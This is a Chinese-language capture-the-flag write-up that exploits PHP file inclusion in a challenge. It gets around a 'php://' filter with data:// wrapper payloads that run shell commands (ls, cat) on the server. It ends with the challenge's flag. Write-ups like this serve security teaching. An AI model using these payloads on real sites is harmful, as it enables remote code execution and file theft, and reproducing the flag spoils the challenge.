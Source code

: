 # T4 Web_php_include

> 题目：攻防世界 Web_php_include

__0x00 审题__

打开题目如下：

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

__0x01 解题__

> 因为最近刚看了PHP伪协议，所以打算用它来做

* 代码中有一块过滤了php://，我们可以用其他协议，例如：data：//

> 小介绍（data：//）：php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码

1. 引用<?php system("dir")?>，构造payload： ?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=  （base64编码之前有过工具链接）

2. 发现文件“fl4gisisish3r3.php”，采用<?php system("cat fl4gisisish3r3.php")?>,构造

payload:data://text/plain/;base64,PD9waHAgc3lzdGVtKCJjYXQgZmw0Z2lzaXNpc2gzcjMucGhwIik/Pg==

__0x02 答案__

得到flag：ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}

> 不是总结，但是后话
>
> 这个题方法应该有很多，就光见到的wp就用很多种，鉴于个人水平有限就提一种，未完待续...
